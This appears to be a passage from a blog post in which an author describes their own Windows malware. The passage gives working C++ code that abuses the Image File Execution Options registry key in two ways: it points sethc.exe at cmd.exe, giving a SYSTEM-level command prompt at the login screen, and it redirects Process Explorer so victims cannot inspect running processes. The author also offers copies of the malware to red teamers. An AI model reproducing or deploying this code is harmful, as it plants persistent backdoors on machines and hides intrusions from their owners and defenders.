 <h3>Sticky Keys Prompt and Preventing Users from Opening Certain Processes</h3>
This was an idea from Mubix's malware and it's pretty clever. Constantly enabling RDP and having the sticky keys command prompt is a deadly combo, as you can call up a command prompt with NT AUTHORITY/SYSTEM privileges from the login screen and do whatever you want (create users, shut things down, change passwords, etc.)
This was relatively easy as I just had to edit a registry key. Again, sketchy code:
```cpp

	HKEY sethcKey;
	DWORD lpd = MAX_PATH;
	DWORD szType = REG_SZ;

	//Sticky keys prompt
	if (RegCreateKeyEx(HKEY_LOCAL_MACHINE, L"SOFTWARE\\\\Microsoft\\\\Windows NT\\\\CurrentVersion\\\\Image File Execution Options\\\\sethc.exe", NULL, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &sethcKey, NULL != ERROR_SUCCESS)){
		cout << "Sethc Key not created successfully\\n";
	}else{
		if (RegSetValueEx(sethcKey, L"Debugger", NULL, REG_SZ, (const BYTE*)_T("\\"C:\\\\Windows\\\\system32\\\\cmd.exe\\""), lpd) != ERROR_SUCCESS){
			cout << "Failed to set sethc key" << endl;
		}
	}
	RegCloseKey(sethcKey);
</pre>

So there's that. 

This can also be used to block programs from starting by name. The examples I use are Process Explorer and Process Hacker. Here's one: 
<pre class="lang:cpp startline:463 decode:1 nums:true" >

	//Stop process explorer
	if (RegCreateKeyEx(HKEY_LOCAL_MACHINE, L"SOFTWARE\\\\Microsoft\\\\Windows NT\\\\CurrentVersion\\\\Image File Execution Options\\\\procexp.exe", NULL, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &procKey, NULL != ERROR_SUCCESS)){
		cout << "procexp key not created successfully\\n";
	}
	else{
		if (RegSetValueEx(procKey, L"Debugger", NULL, REG_SZ, (const BYTE*)_T("\\"C:\\\\Windows\\\\system32\\\\rundll32.exe\\""), lpd) != ERROR_SUCCESS){
			cout << "Failed to set procexp key" << endl;
		}
	}
	RegCloseKey(procKey);
```

This will open rundll32.exe when the victim tries to open procexp.exe, the standard name for Process Explorer in the Sysinternals Suite. With no arguments rundll32.exe does nothing, and that's what we want. The quick fix to this is to rename the executable, but who would really think to do that?

I spent a lot of time on this. I hope you enjoyed reading about it and my solutions to problems I was having. For obvious reasons I am not going to release the full source code, but feel free to ask me for a copy of this malware if you are red teaming and want something advance AND persistent!
